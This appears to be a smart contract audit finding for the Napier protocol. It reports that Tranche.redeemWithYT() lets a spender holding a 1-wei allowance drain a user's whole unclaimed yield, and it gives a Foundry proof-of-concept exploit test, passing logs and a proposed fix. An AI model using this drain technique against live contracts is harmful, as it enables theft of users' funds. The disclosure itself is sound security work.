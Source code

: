 Dancing Steel Coyote

high

# All yield could be drained if users set any ````> 0```` allowance to others

## Summary
````Tranche.redeemWithYT()```` is not well implemented, all yield could be drained if users set any ````> 0```` allowance to others.

## Vulnerability Detail
The issue arises on L283, all ````accruedInTarget```` is sent out, this will not work while users have allowances to others. Let's say, alice has ````1000 YT```` (yield token) which has generated ````100 TT```` (target token), and if she approves bob ````100 YT```` allowance, then bob should only be allowed to take the proportional target token, which is ```` 100 TT * (100 YT / 1000 YT) = 10 TT````.
```solidity
File: src\Tranche.sol
246:     function redeemWithYT(address from, address to, uint256 pyAmount) external nonReentrant returns (uint256) {
...
261:         accruedInTarget += _computeAccruedInterestInTarget(
262:             _gscales.maxscale,
263:             _lscale,
...
268:             _yt.balanceOf(from)
269:         );
..
271:         uint256 sharesRedeemed = pyAmount.divWadDown(_gscales.maxscale);
...
283:         _target.safeTransfer(address(adapter), sharesRedeemed + accruedInTarget);
284:         (uint256 amountWithdrawn, ) = adapter.prefundedRedeem(to);
...
287:         return amountWithdrawn;
288:     }

```

The following coded PoC shows all unclaimed and  unaccrued target token could be drained out, even if the allowance is as low as ````1wei````.
```solidity

// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import {TestTranche} from "./Tranche.t.sol";
import "forge-std/console2.sol";

contract TrancheAllowanceIssue is TestTranche {
    address bob = address(0x22);
    function setUp() public virtual override {
        super.setUp();
    }

    function testTrancheAllowanceIssue() public {
        // 1. issue some PT and YT
        deal(address(underlying), address(this), 1_000e6, true);
        tranche.issue(address(this), 1_000e6);

        // 2. generating some unclaimed yield
        vm.warp(block.timestamp + 30 days);
        _simulateScaleIncrease();

        // 3. give bob any negligible allowance, could be as low as only 1wei
        tranche.approve(bob, 1);
        yt.approve(bob, 1);

        // 4. all unclaimed and pending yield drained by bob
        assertEq(0, underlying.balanceOf(bob));
        vm.prank(bob);
        tranche.redeemWithYT(address(this), bob, 1);
        assertTrue(underlying.balanceOf(bob) > 494e6);
    }
}
```

And the logs:
```solidity
2024-01-napier\napier-v1> forge test --match-test testTrancheAllowanceIssue -vv
[⠔] Compiling...
[⠊] Compiling 42 files with 0.8.19
[⠔] Solc 0.8.19 finished in 82.11sCompiler run successful!
[⠒] Solc 0.8.19 finished in 82.11s

Running 1 test for test/unit/TrancheAllowanceIssue.t.sol:TrancheAllowanceIssue
[PASS] testTrancheAllowanceIssue() (gas: 497585)
Test result: ok. 1 passed; 0 failed; 0 skipped; finished in 11.06ms

Ran 1 test suites: 1 tests passed, 0 failed, 0 skipped (1 total tests)
```


## Impact
Users lost all unclaimed and unaccrued yield 

## Code Snippet
https://github.com/sherlock-audit/2024-01-napier/blob/main/napier-v1/src/Tranche.sol#L283
## Tool used

Manual Review

## Recommendation
```diff
diff --git a/napier-v1/src/Tranche.sol b/napier-v1/src/Tranche.sol
index 62d9562..65db5c6 100644
--- a/napier-v1/src/Tranche.sol
+++ b/napier-v1/src/Tranche.sol
@@ -275,12 +275,15 @@ contract Tranche is BaseToken, ReentrancyGuard, Pausable, ITranche {
         delete unclaimedYields[from];
         gscales = _gscales;

+        uint256 accruedProportional = accruedInTarget * pyAmount / _yt.balanceOf(from);
+        unclaimedYields[from] = accruedInTarget - accruedProportional;
+        
         // Burn PT and YT tokens from `from`
         _burnFrom(from, pyAmount);
         _yt.burnFrom(from, msg.sender, pyAmount);

         // Withdraw underlying tokens from the adapter and transfer them to the user
-        _target.safeTransfer(address(adapter), sharesRedeemed + accruedInTarget);
+        _target.safeTransfer(address(adapter), sharesRedeemed + accruedProportional);
         (uint256 amountWithdrawn, ) = adapter.prefundedRedeem(to);

         emit RedeemWithYT(from, to, amountWithdrawn);
```
